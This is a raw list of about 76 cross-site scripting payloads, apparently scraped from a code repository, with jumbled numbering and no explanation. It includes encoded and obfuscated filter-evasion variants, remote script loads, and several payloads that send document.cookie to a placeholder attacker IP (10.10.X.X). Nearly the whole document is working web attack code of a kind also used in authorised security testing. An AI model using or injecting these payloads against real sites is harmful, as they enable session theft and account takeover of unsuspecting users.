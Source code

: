<script>document.location="http://10.10.X.X/xss-76.js?c="+document.cookie;</script> 
<img src=x onerror=document.location="http://10.10.X.X/xss-75.js?c="+document.cookie> <SCRIPT>window.location.replace('http://10.10.X.X/XSS-1');</SCRIPT> 
'';!--"<XSS>=&{()} 5. <SCRIPT SRC=http://10.10.X.X/xss-2.js></SCRIPT>
6. <IMG SRC="javascript:window.location.replace('http://10.10.X.X/XSS-3');">
7. <IMG SRC=javascript:window.location.replace('http://10.10.X.X/XSS-4')>
8. <IMG SRC=JaVaScRiPt:window.location.replace('http://10.10.X.X/XSS-5')>
9. <IMG SRC=javascript:window.location.replace("http://10.10.X.X/XSS-6")> 
10. <IMG SRC=<code>javascript:window.location.replace('http://10.10.X.X/XSS-7')</code>>
11. <IMG SRC=javascript:eval(String.fromCharCode(119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,114,101,112,108,97,99,101,40,39,104,116,116,112,58,47,47,49,57,50,46,49,54,56,46,53,54,46,49,48,54,47,88,83,83,45,57,39,41));)>
12. SRC=&#10<IMG 6;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;> 
13. <IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041> 
14. <IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29> 
15. <IMG SRC="jav ascript:window.location.replace('http://10.10.X.X/XSS-13');"> 
16. <IMG SRC="jav&#x09;ascript:window.location.replace('http://10.10.X.X/XSS-14');">
17. <IMG SRC="jav&#x0A;ascript:window.location.replace('http://10.10.X.X/XSS-15');">
18. <IMG SRC="jav&#x0D;ascript:window.location.replace('http://10.10.X.X/XSS-16');"> 
19. <IMG SRC=" &#14; javascript:window.location.replace('http://10.10.X.X/XSS-17');">
20. <SCRIPT/XSS SRC="http://10.10.X.X/xss-18.js"></SCRIPT>
21. <SCRIPT SRC=http://10.10.X.X/xss-19.js?<B> 
22. <IMG SRC="javascript:window.location.replace('http://10.10.X.X/XSS-20')"
23. <SCRIPT>a=/XSS/ 
24. \";window.location.replace('http://10.10.X.X/XSS-22');//
25. <INPUT TYPE="IMAGE" SRC="javascript:window.location.replace('http://10.10.X.X/XSS-23');"> 26. <BODY BACKGROUND="javascript:window.location.replace('http://10.10.X.X/XSS-24')"> 27. <BODY ONLOAD=window.location.replace('http://10.10.X.X/XSS-25')>
26. <IMG DYNSRC="javascript:window.location.replace('http://10.10.X.X/XSS-26')">
27. <IMG LOWSRC="javascript:window.location.replace('http://10.10.X.X/XSS-27')">
28. <BGSOUND SRC="javascript:window.location.replace('http://10.10.X.X/XSS-28');">
29. <BR SIZE="&{window.location.replace('http://10.10.X.X/XSS-29')}"> 
30. <LAYER SRC="http://10.10.X.X/scriptlet-30.html"></LAYER>
31. <LINK REL="stylesheet" HREF="javascript:window.location.replace('http://10.10.X.X/XSS-31');"> 34. <LINK REL="stylesheet" HREF="http://10.10.X.X/xss-32.css"> 
32. <STYLE>@import'http://10.10.X.X/xss-33.css';</STYLE>
36. <META HTTP-EQUIV="Link" Content="<http://10.10.X.X/xss-34.css>; REL=stylesheet"> 37. <STYLE>BODY{-moz-binding:url("http://10.10.X.X/xssmoz-35.xml#xss")}</STYLE> 38. <IMG SRC='vbscript:msgbox("XSS")'> 39. <IMG SRC="mocha:[code]"> 40. <IMG SRC="livescript:[code]"> 41. <META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:window.location.replace('http://10.10.X.X/XSS-38');"> 42. <META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD53aW5kb3cubG9jYXRpb24ucmVwbGFjZSgnaHR0cDovLzE5Mi4xNjguNTYuMTA2L1hTUy00MCcpOzwvc2NyaVB0Pg=="> 43. <META HTTP-EQUIV="Link" Content="<javascript:window.location.replace('http://10.10.X.X/XSS-41')>; REL=stylesheet"> 44. <META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:window.location.replace('http://10.10.X.X/XSS-42');"> 45. <IFRAME SRC="javascript:window.location.replace('http://10.10.X.X/XSS-43');"></IFRAME> 46. <FRAMESET><FRAME SRC="javascript:window.location.replace('http://10.10.X.X/XSS-44');"></FRAMESET> 47. <TABLE BACKGROUND="javascript:window.location.replace('http://10.10.X.X/XSS-45')"> 48. <DIV STYLE="background-image: url(javascript:window.location.replace('http://10.10.X.XXSS-46'))"> 49. <DIV STYLE="background-image: url(&#1;javascript:window.location.replace('http://10.10.X.X/XSS-47'))"> 50. <DIV STYLE="width: expression(window.location.replace('http://10.10.X.X/XSS-48'));"> 51. <STYLE>@im\port'\ja\vasc\ript:window.location.replace("http://10.10.X.X/XSS-49")';</STYLE> 52. <IMG STYLE="xss:expr/*XSS*/ession(window.location.replace('http://10.10.X.XXSS-50'))"> 53. <XSS STYLE="xss:expression(window.location.replace('http://10.10.X.X/XSS-51'))"> 54. exp/*<XSS STYLE='no\xss:noxss("*//*"); 55. <STYLE TYPE="text/javascript">window.location.replace('http://10.10.X.X/XSS-53');</STYLE> 56. <STYLE>.XSS{background-image:url(javascript:window.location.replace('http://10.10.X.X/XSS-54'));}</STYLE><A CLASS=XSS></A> 57. <STYLE type="text/css">BODY{background:url(javascript:window.location.replace('http://10.10.X.X/XSS-55'))}</STYLE> 58. <BASE HREF="javascript:window.location.replace('http://10.10.X.X/XSS-56');//"> 59. <OBJECT TYPE="text/x-scriptlet" DATA="http://10.10.X.X/scriptlet-57.html"></OBJECT> 60. <OBJECT classid=clsid:ae24fdae-03c6-11d1-8b76-0080c744f389><param name=url value=javascript:window.location.replace('http://10.10.X.X/XSS-58')></OBJECT> 61. getURL("javascript:window.location.replace('http://10.10.X.X/XSS-59')") 62. a="get"; 63. <!--<value><![CDATA[<XML ID=I><X><C><![CDATA[<IMG SRC="javas<![CDATA[cript:window.location.replace('http://10.10.X.X/XSS-61');"> 64. <XML SRC="http://10.10.X.X/xsstest-62.xml" ID=I></XML> 65. <HTML><BODY> 66. <SCRIPT SRC="http://10.10.X.X/xss-64.jpg"></SCRIPT> 67. <!--#exec cmd="/bin/echo '<SCRIPT SRC'"--><!--#exec cmd="/bin/echo '=http://10.10.X.X/xss-65.js></SCRIPT>'"--> 68. <? echo('<SCR)'; 69. <META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>window.location.replace('http://10.10.X.X/XSS-67')</SCRIPT>"> 70. <HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-window.location.replace('http://10.10.X.X/XSS-68');+ADw-/SCRIPT+AD4- 71. <SCRIPT a=">" SRC="http://10.10.X.X/xss-69.js"></SCRIPT> 72. <SCRIPT a=">" '' SRC="http://10.10.X.X/xss-70.js"></SCRIPT> 73. <SCRIPT "a='>'" SRC="http://10.10.X.X/xss-71.js"></SCRIPT> 74. <SCRIPT a=<code>></code> SRC="http://10.10.X.X/xss-72.js"></SCRIPT> 75. <SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://10.10.X.X/xss-73.js"></SCRIPT> 76. <img src=x onerror=this.src="http://10.10.X.X/xss-74.js?c="+document.cookie>
